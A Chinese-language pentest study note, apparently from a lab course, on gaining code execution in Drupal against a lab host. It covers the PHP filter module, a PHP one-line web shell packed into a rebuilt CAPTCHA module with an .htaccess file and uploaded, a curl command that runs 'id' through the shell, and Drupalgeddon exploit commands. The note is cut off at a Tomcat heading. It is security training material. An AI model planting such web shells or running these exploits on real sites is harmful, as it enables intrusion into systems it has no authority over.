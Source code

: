 >[!warning ] 小節重點
>Drupal攻擊手法比較多元，這章介紹比較經典的打法
### 透過修改php內容
>[!種點]
>- Drupal 7之前: 要先打開`PHP filter`，才可以開啟PHP修改的功能
>- Drupal 8: `PHP filter`沒有被預設打開，所以需要自行安裝
- 下載Drupal 8的 PHP filter
```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
- 其餘過程跟其他CMS沒啥差別，就是加入可以RCE的PHP
### 上傳後門程式
>[!warning] 小節重點
>Drupal可以讓使用者上傳Plug-In，所以可以透過修改Plug-In的方式拿RCE。
- 以CAPTCHA這個Plug-In為範例，下載後再解壓縮。
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```
```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```
- 製作php一句話木馬，`shell.php`
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
- 製作 .htaccess讓我們自己可以進去目錄
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
- 把上述資料都打包到CAPTCHA資料夾裡面
```shell-session
mv shell.php .htaccess captcha
```
```shell-session
tar cvf captcha.tar.gz captcha/
```
- 把資料在 `http://drupal.inlanefreight.local/admin/modules/install`上傳之後，就可以拿到RCE
```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
### 透過已知漏洞
- Drupalgeddon
	- affects versions 7.0 up to 7.31
	- [CVE-2014-3704](https://www.exploit-db.com/exploits/34992) 
	- `python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd`
	- Metasploit-framework(exploit/multi/http/drupal_drupageddon)
- Drupalgeddon2
	- affects versions 7.58 and 8.5.1
	- [CVE-2018-7600](https://www.exploit-db.com/exploits/44448)
- Drupalgeddon3
	- affects multiple versions of Drupal 7.x and 8.x
	- [CVE-2018-7602]
	- Metasploit-framework(multi/http/drupal_drupageddon3)
# Tomcat - 列舉與攻擊手法 
>[!本章重點]